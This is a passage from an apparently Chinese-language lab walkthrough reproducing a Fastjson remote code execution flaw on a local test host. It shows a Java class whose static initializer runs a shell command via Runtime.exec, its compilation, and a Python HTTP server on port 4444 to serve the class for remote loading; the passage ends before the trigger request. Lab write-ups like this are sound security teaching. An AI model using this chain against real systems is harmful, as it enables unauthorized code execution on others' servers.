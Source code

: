 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4Rhrjm47qXxFo8d5298T6OU5SGEB5kOGVTownSvFpiaFJedQZJ6ibDU7ibH0A/640?wx_fmt=png "")  
  
             
  
我们访问 ubantu的IP+端口，192.168.103.161:8090，得到如下的界面：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrKKLJmdbOM2Wo5XJCLKicNnvIkzTkqZaGk2AToGAOjPymg9lp2CnrE2w/640?wx_fmt=png "")  
  
             
### 二、漏洞复现  
#### 1、远程创建文件  
  
一、这里要创建java代码文件，所以对环境比较严格，要保证java和javac的版本一致，且都是1.8的版本！！！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrSe7brhiaibibtRHCL6IIsXsPesMubSA1oWhia8kjC2xl8SWeBOFXVPP37Q/640?wx_fmt=png "")  
  
  
二、我们先在本地把java代码文件编译好，然后再上传到攻击机：kali下保存以下代码为TouchFile.java文件  
```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/successFrank"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrKdPZ400XOlnyMIm80iccCFvVf0j0p8ELicqY2GH7ibAWpANm9lGJmxcWg/640?wx_fmt=png "")  
  
             
  
三、编译.java文件，生成.class文件。  
```
javac TouchFile.java
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4Rhr7Aa3VwbVJGAsOnYLyn0mOLh6LmmdlqmqAiaXrCxwS4MkaOC7yVGnzmQ/640?wx_fmt=png "")  
  
             
  
四、然后我们再把编译好的.class文件上传到攻击机kali目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4Rhrh6zur2jhf7iaQt4fiaBKGiauQiaMzzY7fcKYyccDTIVia6UDI5liaJriaUtibQ/640?wx_fmt=png "")  
  
  
五、在class文件所在的目录，Python起一个http服务。用4444端口启动http服务的命令为：  
```
┌──(root-kali)-[~/桌面/fastjson]
└─# python -m http.server 4444
```  
  